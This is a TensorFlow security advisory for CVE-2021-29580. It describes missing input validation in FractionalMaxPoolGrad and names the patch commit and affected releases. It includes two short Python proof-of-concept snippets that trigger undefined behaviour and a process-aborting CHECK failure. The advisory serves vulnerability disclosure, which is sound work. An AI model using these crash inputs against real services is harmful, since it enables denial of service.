 ## TFSA-2021-066: Undefined behavior and `CHECK`-fail in `FractionalMaxPoolGrad`

### CVE Number
CVE-2021-29580

### Impact
The implementation of `tf.raw_ops.FractionalMaxPoolGrad` triggers an undefined
behavior if one of the input tensors is empty:

```python
import tensorflow as tf

orig_input = tf.constant([2, 3], shape=[1, 1, 1, 2], dtype=tf.int64)
orig_output = tf.constant([], dtype=tf.int64)
out_backprop = tf.zeros([2, 3, 6, 6], dtype=tf.int64)
row_pooling_sequence = tf.constant([0], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([0], shape=[1], dtype=tf.int64)

tf.raw_ops.FractionalMaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The code is also vulnerable to a denial of service attack as a `CHECK` condition
becomes false and aborts the process

```python
import tensorflow as tf

orig_input = tf.constant([1], shape=[1], dtype=tf.int64)
orig_output = tf.constant([1], shape=[1], dtype=tf.int64)
out_backprop = tf.constant([1, 1], shape=[2, 1, 1, 1], dtype=tf.int64)
row_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)

tf.raw_ops.FractionalMaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/169054888d50ce488dfde9ca55d91d6325efbd5b/tensorflow/core/kernels/fractional_max_pool_op.cc#L215)
fails to validate that input and output tensors are not empty and are of the
same rank. Each of these unchecked assumptions is responsible for the above
issues.

### Patches
We have patched the issue in GitHub commit
[32fdcbff9d06d010d908fcc4bd4b36eb3ce15925](https://github.com/tensorflow/tensorflow/commit/32fdcbff9d06d010d908fcc4bd4b36eb3ce15925).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
